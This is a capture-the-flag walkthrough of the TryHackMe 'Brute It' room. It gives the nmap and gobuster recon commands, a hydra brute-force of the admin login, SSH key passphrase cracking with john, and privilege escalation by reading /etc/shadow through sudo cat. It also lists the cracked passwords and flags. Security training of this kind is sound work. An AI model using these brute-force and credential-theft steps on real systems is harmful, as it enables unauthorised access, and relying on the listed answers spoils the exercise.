

# Brute It



## Task 2 Reconnaissance

#### Search for open ports using nmap. How many ports are open?

```bash
nmap -n -sV -sC 10.10.113.210
```



`2`


#### What version of SSH is running?


`OpenSSH 7.6p1`


#### What version of Apache is running?


`2.4.29`


#### Which Linux distribution is running?


`Ubuntu`


#### Search for hidden directories on web server. What is the hidden directory?

```bash
gobuster dir -u http://10.10.113.210 \
             -w /usr/share/dirb/wordlists/common.txt \
             -t128
```



`/admin`


## Task 3 Getting a shell

#### What is the user:password of the admin panel?

 

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
'http-post-form://10.10.113.210/admin/:user=^USER^&pass=^PASS^:invalid' -t64
```



`admin:xavier`


#### Crack the RSA key you found. What is John's RSA Private Key passphrase?


```bash
wget http://10.10.113.210/admin/panel/id_rsa
ssh2john id_rsa > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



`rockinroll`


#### user.txt

```bash
chmod 400 id_rsa
ssh -i id_rsa john@10.10.113.210
find / -type f -name user.txt 2>/dev/null
cat user.txt
```



`THM{a_password_is_not_a_barrier}`


#### Web flag


`THM{brut3_f0rce_is_e4sy}`


## Task 4 Privilege Escalation

#### Find a form to escalate your privileges. What is the root's password?

```bash
sudo -l
sudo /bin/cat /etc/passwd | grep root > passwd
sudo /bin/cat /etc/shadow | grep root > shadow
```


```bash
scp -i id_rsa john@10.10.113.210:/home/john/{passwd,shadow} .
unshadow passwd shadow > crackme
john --wordlist=/usr/share/wordlists/rockyou.txt crackme
```



`football`


#### root.txt

```bash
su - root
cat root.txt
```



`THM{pr1v1l3g3_3sc4l4t10n}`


## Xmind


